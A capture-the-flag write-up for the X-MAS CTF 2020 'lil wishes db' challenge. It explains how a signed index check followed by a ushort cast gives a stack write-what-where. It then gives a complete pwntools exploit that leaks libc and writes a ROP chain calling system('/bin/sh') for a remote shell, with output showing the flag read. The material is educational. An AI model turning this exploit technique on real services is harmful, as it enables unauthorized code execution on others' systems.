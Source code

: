 # X-MAS CTF 2020

## lil wishes db

> 359
>
> I don't want a lot for Christmas!  
> RCE is all I need  
> I don't care about protections  
> Underneath the RSP  
>
> Target: `nc challs.xmas.htsp.ro 2002`
> 
> Author: Th3R4nd0m
> 
> [naughty.zip](naughty.zip)

Tags: _pwn_ _x86-64_ _rop_ _remote-shell_ _integer-overflow_ _write-what-where_


## Summary

Leverage integer overflow to write out ROP chain and get a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place.  Nice!


### Decompile with Ghidra

Just the vulnerable sections of code:

Relevant variables:

```c
  int local_6c;
  int local_68;
  undefined local_58 [72];
```

Swap code:

```c  
        if (local_64 == 1) {
          puts("Index 1:");
          scanf("%d",&local_6c);
          puts("Index 2:");
          scanf("%d",&local_68);
          if ((local_6c < 8) && (local_68 < 8)) {
            swap_ids((ushort)local_6c,(ushort)local_68,(long)local_58);
          }
          else {
            puts("Index should not be > 8");
          }
```

This _swap_ section of code will swap any two 8-byte values in array `local_58` (think of this as `ulong local_58[9]`) with index values 0-7.

There's a perfect storm of minor bugs that result in a major vulnerability--RCE.

`scanf("%d",&local_6c)` and `scanf("%d",&local_68)` permit negative values, this allows the `(local_6c < 8) && (local_68 < 8)` check to pass.  Had `local_6c` and `local_68` been `uint`, this vulnerability would have been mitigated.

The `ushort` casts in the statement `swap_ids((ushort)local_6c,(ushort)local_68,(long)local_58)` converts those negative number to positive creating an integer overflow. This overflow permits swaps with index values 0-65535 (2<sup>16</sup> - 1) enabling arbitrary read and write down stack.

The return address is `0x58` bytes from `local_58`, an index of `11` (`0x58 / 8`) will easily allow us to write out a ROP chain.  


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

def swap(p,n):
    p.sendline('1')
    p.sendlineafter('Index 1:\n','0')
    p.sendlineafter('Index 2:\n',str(n-65536))
    p.recvuntil('Option: \n')

def leak(p,n):
    swap(p,n)
    p.sendline('2')
    p.recvuntil('ID[0] =')
    _ = p.recvline().strip()
    swap(p,n)
    return int(_)

def insert(p,n):
    p.sendline('3')
    p.sendlineafter('Index: \n','0')
    p.sendlineafter('Value: \n',str(n))
    p.recvuntil('Option: \n')

def www(p,what,where):
    insert(p,what)
    swap(p,where)
```

These functions make the exploit development a bit easier:

`swap` just frontends the swap code, however we can just pass in `n` and the `n-65536` will create the necessary negative number to enable an index of range from zero to 65535 (see analysis section).

`leak` will call `swap` to _swap_ a value into the `0`th element and use the programs `Print database` code to leak that value, then call `swap` again to, well, _swap_ it back.

`insert` will only set indexes `0-7` since `local_60` is `uint`, IOW we cannot simply call `insert` to write out our ROP chain.

Lastly, `www` is our _write-what-where_ (limited to down stack), `www` simply writes `what` into the `0`th element using the built-in `Insert ID` code, then calls `swap` once to write it to `where`.

```python
binary = context.binary = ELF('./chall')

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2002)
    libc = ELF('./libc.so.6')
else:
    p = process(binary.path)
    libc = binary.libc

p.recvuntil('Option: \n')

__libc_start_main = leak(p,0x58 // 8) - 231
libc.address = __libc_start_main - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
```

Before we can write out a ROP chain, we need to know the location of `libc`.  Fortunately the game masters provided the challenge server libc binary.  From this with can use `grep` to find that this is from Ubuntu 18.04 and then dev/test in an Ubuntu 18 container (there are other ways, e.g. `p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})`, but I had an Ubuntu 18.04 container handy).

Locally, by setting a break point at `ret`:

```
gef➤  b *0x555555554000 + 0xb4a
Breakpoint 1 at 0x555555554b4a
gef➤  run
Starting program: /pwd/datajerk/xmasctf2020/lil_wishes_db/chall
Wishes database

Choose:
1.Swap IDs
2.Print database
3.Insert ID
4.Exit

Option:
4
```

we can see that the return address is:

```
0x00007fffffffe398│+0x0000: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax	 ← $rsp
```

Using `leak` with an index of `0x58 // 8` (11) we can get the address of `__libc_start_main+231` and compute the base of libc.

```python
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload = [pop_rdi+1,pop_rdi,libc.search(b'/bin/sh').__next__(),libc.sym.system]

where = 0x58 // 8
for what in payload:
    www(p,what,where)
    where += 1

p.sendline('4')
p.interactive()
```

At this point it's pretty much game over.  All that is required is a `rop rdi` gadget from libc, the location of a `/bin/sh` string and the `system` call, both from libc, and then we just write that down stack starting at `0x58 // 8` (11).

To execute our attack, just send `4` to exit the menu.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/lil_wishes_db/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.xmas.htsp.ro on port 2002: Done
[*] '/pwd/datajerk/xmasctf2020/lil_wishes_db/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f813bafc000
[*] Loading gadgets for '/pwd/datajerk/xmasctf2020/lil_wishes_db/libc.so.6'
[*] Switching to interactive mode


Merry Christmas!
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{oh_nooo_y0u_ru1ned_the_xmas}
```

